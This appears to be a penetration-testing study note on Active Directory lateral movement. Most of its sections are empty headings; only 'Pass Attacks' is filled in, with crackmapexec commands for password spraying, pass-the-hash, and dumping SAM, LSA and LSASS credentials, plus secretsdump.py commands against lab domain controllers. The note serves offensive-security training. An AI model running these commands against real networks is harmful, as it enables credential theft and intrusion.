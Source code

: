 
>[! bug] Moving Laterally & Vertically

```
- [ ] Pass Attacks
- [ ] Dumping and Cracking Hashes
- [ ] Kerberoasting Overview
- [ ] Token Impersonation
- [ ] LNK File Attacks
- [ ] GPP / cPassword Attacks
- [ ] Mimikatz
- [ ] Credential Dumping with Mimikatz
- [ ] Post-Compromise Attack Strategy
```



##  Pass Attacks

- [ ] crackmapexec

```
crackmapexec smb <IP_Address> -u <user_list> -d <domain_list> -p <password_list>
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -d MARVEL.local -p Password1
```



Hash
```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --sam
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --lsa
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth --shares
```

```
crackmapexec smb 10.0.0.0/24 -u fcastle -H <full:hash> --local-auth -M lsassy
```


```
cmedb
```



- [ ] secretsdump

```
secretsdump.py -no-pass -just-dc MULTIMASTER\$@10.10.10.179
```

```
secretsdump.py Cascade.local/ArkSvc:'w3lc0meFr31nd'@10.10.10.182 
```




- [ ] Dumping and Cracking Hashes



- [ ] Kerberoasting



- [ ] Token Impersonation



- [ ] LNK File Attacks



- [ ] GPP / cPassword Attacks



- [ ] Mimikatz



- [ ] Credential Dumping with Mimikatz



- [ ] Post-Compromise Attack Strategy